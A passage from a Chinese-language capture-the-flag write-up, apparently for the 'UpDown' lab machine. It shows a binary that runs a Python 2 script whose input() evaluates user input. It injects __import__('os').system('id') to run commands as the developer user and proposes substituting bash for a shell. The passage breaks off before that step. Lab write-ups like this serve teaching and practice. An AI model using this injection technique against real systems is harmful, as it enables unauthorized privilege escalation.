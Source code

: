     []A\A]A^A_
    Welcome to 'siteisup.htb' application
    /usr/bin/python /home/developer/dev/siteisup_test.py
    ···
    ```

+ 二进制文件`siteisup`就是在运行`siteisup_test.py`文件，`input()`可以进行利用,尝试运行二进制文件并利用：

    ```
    www-data@updown:/home/developer/dev$ ./siteisup
    ./siteisup
    Welcome to 'siteisup.htb' application

    Enter URL here:http://www.baidu.com
    http://www.baidu.com
    Traceback (most recent call last):
    File "/home/developer/dev/siteisup_test.py", line 3, in <module>
        url = input("Enter URL here:")
    File "<string>", line 1
        http://www.baidu.com
            ^
    SyntaxError: invalid syntax

    www-data@updown:/home/developer/dev$ ./siteisup
    ./siteisup
    Welcome to 'siteisup.htb' application

    Enter URL here:__import__('os').system('id')
    __import__('os').system('id')
    uid=1002(developer) gid=33(www-data) groups=33(www-data)
    Traceback (most recent call last):
    File "/home/developer/dev/siteisup_test.py", line 4, in <module>
        page = requests.get(url)
    File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
        return request('get', url, params=params, **kwargs)
    File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
        return session.request(method=method, url=url, **kwargs)
    File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
        prep = self.prepare_request(req)
    File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
        hooks=merge_hooks(request.hooks, self.hooks),
    File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
        self.prepare_url(url, params)
    File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
        raise MissingSchema(error)
    requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
    ```

    + 命令成功执行，可以将`id`替换为`bash`获得shell：

        ```
        www-data@updown:/home/developer/dev$ ./siteisup
        ./siteisup
        Welcome to 'siteisup.htb' application
